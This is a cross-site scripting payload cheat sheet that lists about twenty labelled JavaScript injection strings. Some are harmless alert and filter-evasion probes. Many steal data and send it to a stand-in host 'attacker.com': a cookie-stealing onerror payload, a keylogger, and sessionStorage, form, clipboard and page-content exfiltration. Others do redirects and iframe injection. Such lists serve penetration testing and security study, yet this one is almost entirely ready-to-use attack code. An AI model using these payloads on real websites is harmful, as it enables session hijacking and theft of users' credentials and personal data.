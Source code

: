 
**Simple alert popup:** Displays a JavaScript alert box.

```javascript
<script>alert('XSS')</script>
```

**Simple alert popup with basic filter evasion:** Displays a JavaScript alert box.

```javascript
"><script>alert('XSS')</script><!--
```

**Classic image tag with onerror:** Executes code when the image fails to load.

```javascript
<img src='x' onerror=alert('XSS')>
```

**Event handler exploitation:** Executes JavaScript through click events.

```javascript
<img src="<valid url>" onclick=alert("hi") />
```

**Cookie theft:** Sends cookies to an attacker-controlled server.

```javascript
<img src=x onerror=fetch("own_ip:port/"+document.cookie);>
```

**Alert with cookies:** Shows the user's cookies in an alert box.

```javascript
<script>alert(document.cookie)</script>
```
**URL redirection:** Redirects the user to a malicious site.

```javascript
<script>window.location.replace('http://attacker.com');</script>
```

**SVG tag with JavaScript:** Executes JavaScript inside an SVG.

```javascript
<svg onload=alert('XSS')>
```

**Keylogger:** Captures and exfiltrates keystrokes.

```javascript
<script>document.onkeypress = function(e) { fetch('http://attacker.com/log?key=' + e.key); }</script>
```

**Session storage theft:** Steals sessionStorage data.

```javascript
<script>fetch('http://attacker.com/steal?session=' + JSON.stringify(sessionStorage));</script>
```

**DOM modification:** Injects content into the page.

```javascript
<script>document.body.innerHTML = '<h1>Hacked!</h1>';</script>
```

**Form exfiltration:** Captures form input and sends it to an attacker.

```javascript
<script>fetch('http://attacker.com/form?data=' + new URLSearchParams(new FormData(document.forms[0])));</script>
```

**IFrame injection:** Embeds a malicious iframe.

```javascript
<script>document.body.innerHTML += '<iframe src="http://attacker.com"></iframe>';</script>
```

**Browser fingerprinting:** Gathers browser and system info.

```javascript
<script>fetch('http://attacker.com/info?ua=' + navigator.userAgent);</script>
```

**Clipboard theft:** Reads and exfiltrates clipboard contents.

```javascript
<script>navigator.clipboard.readText().then(text => fetch('http://attacker.com/clipboard?data=' + text));</script>
```

**Alert loop:** Creates an infinite alert loop.

```javascript
<script>while(true) { alert('XSS!'); }</script>
```

**CSS-based XSS (with style tags):** Injects malicious CSS.

```javascript
<style>body { background: url('http://attacker.com/bg.png'); }</style>
```

**Storage-based XSS:** Stores payload in localStorage.

```javascript
<script>localStorage.setItem('XSS', '<script>alert(1)</script>');</script>
```

**XHR abuse:** Sends sensitive data via XMLHttpRequest.

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal?data=' + document.body.innerHTML);
xhr.send();
</script>
```

